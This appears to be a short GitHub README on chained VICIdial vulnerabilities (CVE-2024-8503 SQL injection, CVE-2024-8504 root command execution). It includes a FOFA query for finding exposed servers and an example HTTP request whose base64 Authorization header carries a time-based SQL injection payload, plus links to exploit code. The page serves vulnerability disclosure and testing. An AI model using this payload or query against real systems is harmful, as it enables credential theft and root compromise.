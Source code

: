 ## VICIdial Unauthenticated SQLi to RCE (CVE-2024-8503 and CVE-2024-8504)

This vulnerability can lead to username and plaintext password exposure. When combined with CVE-2024-8504, it causes a remote code execution vulnerability via sql injection.

The following PoC code tests the vulnerability on a time based.


CVE-2024-8503 (Sqli)
```
An unauthenticated attacker can leverage a time-based SQL injection vulnerability in VICIdial to enumerate database records. By default, VICIdial stores plaintext credentials within the database.
```

CVE-2024-8504 (RCE)
```
An attacker with authenticated access to VICIdial as an "agent" can execute arbitrary shell commands as the "root" user. This attack can be chained with CVE-2024-8503 to execute arbitrary shell commands starting from an unauthenticated perspective.
```

## fofa
```
icon_hash="1375401192"
```
## Poc Example
```
        GET /VERM/VERM_AJAX_functions.php?function=log_custom_report HTTP/1.1
        Host: 
        Authorization: Basic JywnJyxzbGVlcCg2KSk7IzpiYXI=
```

## Exploits
https://en.0day.today/exploit/39746
https://github.com/Chocapikk/CVE-2024-8504
## Nuclei Template
https://github.com/projectdiscovery/nuclei-templates/pull/10757